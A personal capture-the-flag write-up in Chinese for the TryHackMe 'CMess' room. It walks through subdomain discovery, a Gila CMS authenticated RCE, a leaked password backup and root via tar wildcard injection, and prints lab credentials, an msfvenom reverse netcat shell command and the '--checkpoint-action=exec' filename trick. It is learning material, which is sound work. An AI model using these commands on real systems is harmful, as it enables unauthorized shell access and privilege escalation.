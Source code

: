 ```yaml
---
title: '[thm] CMess'
date: 2024-12-27 21:50 +0800
categories: [hack,TryHackMe]
tags: []
---
```


## information

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image.png>)
> port scan

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-1.png>)
通过子域名爆破发现一个子域名，得到用户邮箱和密码。web/[**andre@cmess.thm:KPFTN_f2yxe%**]

## user1

在主域下发现cms框架为gila cms。搜索发现有一个nday，Exploit Title: Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)
直接获得shell。
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-2.png>)

## user2

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-3.png>)
> cat /var/www/html/config.php

这里有一个数据库的账户，不知道为什么，这里我连不上去，直接看wp了，发现我的做法没有问题，但是这里是一个兔子洞。
正确的做法是在/opt下找到一个.password.bak文件
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-4.png>)
查看passwd发现这里的用户名也不对，使用正确的用户名登录。
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-5.png>)
得到user2 **andre:UQfsdCB7aAP6**

## root

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-6.png>)
这里是一个通配符注入。
这里直接用bash反弹shell拿不到，使用msfvenom生成一个就可以成功弹回来了，生成语句如下：
`sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.11.120.122 lport=1234 R > shell.sh`

再一个就是生成文件夹的时候，使用mkdir不好生成带有`--`的文件，看了wp，发现可以使用echo方法，语句如下：
`echo "" > "--checkpoint-action=exec=sh shell.sh"`

## conclution

- 基本信息收集要收集全面，在初期，广泛的信息收集大于漏洞的深究。
- 小细节。

